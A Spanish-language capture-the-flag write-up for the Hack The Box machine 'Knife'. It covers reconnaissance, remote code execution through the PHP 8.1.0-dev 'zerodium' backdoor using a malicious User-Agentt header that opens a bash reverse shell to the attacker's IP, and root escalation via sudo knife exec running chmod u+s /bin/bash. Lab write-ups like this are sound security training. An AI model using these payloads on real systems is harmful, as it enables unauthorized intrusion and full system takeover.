










# Knife

```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.38.120 -oN nmapResult.txt
```



```bash
nmap --script http-enum -p80 10.129.38.120
```



- Launchpad -> Focal
-
```bash
whatweb http://10.129.38.120
```

http://10.129.38.120 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.38.120], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
- PHP, Apache

- Dentro del F12 vemos un enlace a un recurso js que nos reporta un 404 con info de un tal *codepen*



- No parece algo relevante



- En principio no se puede clickar en nada

- Gobuster no parece reportar nada aparte del *index.php*

- Wfuzz no encuentra ningún subdominio

- Escaneamos udp pero no vemos ningún puerto abierto potencial a priori
```bash
sudo nmap -sU --top-ports 100 --open -n 10.129.38.120
```



- Miramos tecnologías de la web ya que no parece haber nada
- Apache 2.4.41 -> no parece tener nada
- PHP 8.1.0 -> última versión es la 8.5 -> Buscamos exploit
- Encontramos un posible RCE en github
https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git

- Leemos lo que hace el exploit y parece que añade un parámetro de "*User-Agentt:*" con la cadena *zerodiumsystem("comando");* con el comando que se quiere explotar.
Si capturamos la petición que carga la web y añadimos esto vemos que se produce el RCE





Vulnerabilidad interesante, atacante consiguió meter un backdoor en el repositorio git de php, el cual activava un RC cuando encontraba la cadena "zerodium"



- Ejecutamos el payload con burpsuite
```bash
nc -nlvp 4444
```

En Burp añadimos la cabecera maliciosa:
```bash
User-Agentt: zerodium system("bash -c \"bash -i >& /dev/tcp/10.10.15.36/4444 0>&1\"");
```

james

## Escalada

```bash
sudo -l
```

Encontramos un binario *knife* -> sospechoso por lo que sea



Vemos que el binario tiene un parámetro (de entre muchos) que ejecuta comandos. Intentamos crear un archivo y ejecutarlo en bash pero saltan muchos errores, el archivo parece que tiene que estar en ruby (.rb)
- Creamos un *privesc.rb* y buscamos como es el código en ruby ->
```
puts "Hello World"
```

- Ejecutamos el comando
```bash
sudo /usr/bin/knife exec privesc.rb
```

Lo ejecuta con sudo:



- Intentaremos crear en ruby un código que ejecute comandos en el sistema como root
Con el comando *system()* podemos ejecutar código
- Metemos en el script ->
```bash
system("chmod u+s /bin/bash")
```

Ejecutamos de nuevo
```bash
sudo /usr/bin/knife exec privesc.rb
```

root
